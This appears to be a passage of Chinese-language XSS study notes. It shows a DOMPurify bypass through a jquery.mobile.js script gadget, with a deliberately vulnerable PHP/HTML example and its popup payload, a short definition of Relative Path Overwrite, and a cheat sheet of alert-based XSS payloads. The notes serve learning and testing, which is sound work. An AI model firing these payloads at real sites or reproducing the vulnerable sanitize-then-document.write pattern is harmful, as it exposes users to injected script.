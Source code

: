 portswigger的一篇博文也表达了类似的想法 `https://portswigger.net/blog/abusing-javascript-frameworks-to-bypass-xss-mitigations`。

下面有一个简单的例子, 这个例子使用了 `DOMPurity` 来加固, 但时因为引入了 `jquery.mobile.js` 导致可以被攻击.

##### 2. 例子
```php
// index.php
<?php

$msg = $_GET['message'];
$msg = str_replace("\n", "", $msg);
$msg = base64_encode($msg);

?>
```
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Preview</title>
    <script type="text/javascript" src="purify.js"></script>
    <script type="text/javascript" src="jquery.js"></script>
    <script type="text/javascript" src="jquery.mobile.js"></script>
</head>
<body>

    <script type="text/javascript">
    var d= atob('<?php echo $msg; ?>');
    var cleanvar = DOMPurify.sanitize(d);
    document.write(cleanvar);
    </script>

</body>
</html>
```
```html
// payload
<div data-role=popup id='-->
&lt;script&gt;alert(1)&lt;/script&gt;'>
</div>
```
#### 4. PRO(Relative Path Overwrite)
PRO(Relative Path Overwrite)攻击又称为相对路径覆盖攻击, 依赖于浏览器和网络服务器的反应, 利用服务器的Web缓存技术和配置差异

### 10. Payload
#### 1. 常用
- `<script>alert(/xss/)</script>`
- `<svg onload=alert(document.domain)>`
- `<img src=document.domain onerror=alert(document.domain)>`
- `<M onmouseover=alert(document.domain)>M`
- `<marquee onscroll=alert(document.domain)>`
- `<a href=javascript:alert(document.domain)>M</a>`
- `<body onload=alert(document.domain)>`
- `<details open ontoggle=alert(document.domain)>`
- `<embed src=javascript:alert(document.domain)>`
